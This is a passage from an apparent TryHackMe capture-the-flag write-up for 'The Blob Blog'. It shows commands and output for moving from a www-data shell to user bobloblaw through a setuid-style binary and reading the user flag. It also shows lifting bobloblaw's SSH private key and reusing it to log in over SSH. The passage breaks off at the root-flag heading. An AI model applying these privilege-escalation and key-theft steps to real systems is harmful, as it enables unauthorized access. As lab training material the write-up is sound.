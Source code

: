 ~~~
www-data@bobloblaw-VirtualBox:/home$ /usr/bin/blogFeedback 6 5 4 3 2 1
/usr/bin/blogFeedback 6 5 4 3 2 1
id
uid=1000(bobloblaw) gid=33(www-data) groups=33(www-data)
~~~

## User flag

Now that we have a shell run as `bobloblaw`, we are able to get the user flag, located in the `Desktop` directory:

~~~
SHELL=/bin/bash script -q /dev/null
bobloblaw@bobloblaw-VirtualBox:/home$ cd bobloblaw
cd bobloblaw
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw$ cd Desktop
cd Desktop
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Desktop$ ls -la
ls -la
total 40
drwxrwx---  3 bobloblaw bobloblaw  4096 Jul 28 15:08 .
drwxrwx--- 16 bobloblaw bobloblaw  4096 Aug  6 14:51 ..
-rw--w----  1 bobloblaw bobloblaw 11054 Jul 24 22:23 dontlookatthis.jpg
-rw--w----  1 bobloblaw bobloblaw 10646 Jul 24 22:29 lookatme.jpg
drwxrwx---  2 root      root       4096 Jul 28 14:18 .uh_oh
-rw--w----  1 bobloblaw bobloblaw   109 Jul 27 23:06 user.txt
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Desktop$ cat user.txt
cat user.txt
THM{C0NGR4t$_g3++ing_this_fur}

@jakeyee thank you so so so much for the help with the foothold on the box!!
~~~

User flag: `THM{C0NGR4t$_g3++ing_this_fur}`

At this stage, we can download the SSH private key located in `/home/bobloblaw/.ssh/id_rsa` to directly connect via SSH.

~~~
kali@kali:/data/The_Blob_Blog/files$ chmod 400 id_rsa.1 
kali@kali:/data/The_Blob_Blog/files$ ssh -i id_rsa.1 bobloblaw@10.10.8.67
The authenticity of host '10.10.8.67 (10.10.8.67)' can't be established.
ECDSA key fingerprint is SHA256:XWhnhV1b5xOqN3oCOn971jPiQdc+/idlaY1U83aeaoM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.8.67' (ECDSA) to the list of known hosts.
Last login: Tue Jul 28 15:33:52 2020 from 192.168.69.241
bobloblaw@bobloblaw-VirtualBox:~$
~~~

# Root Flag

## Rabbit holes
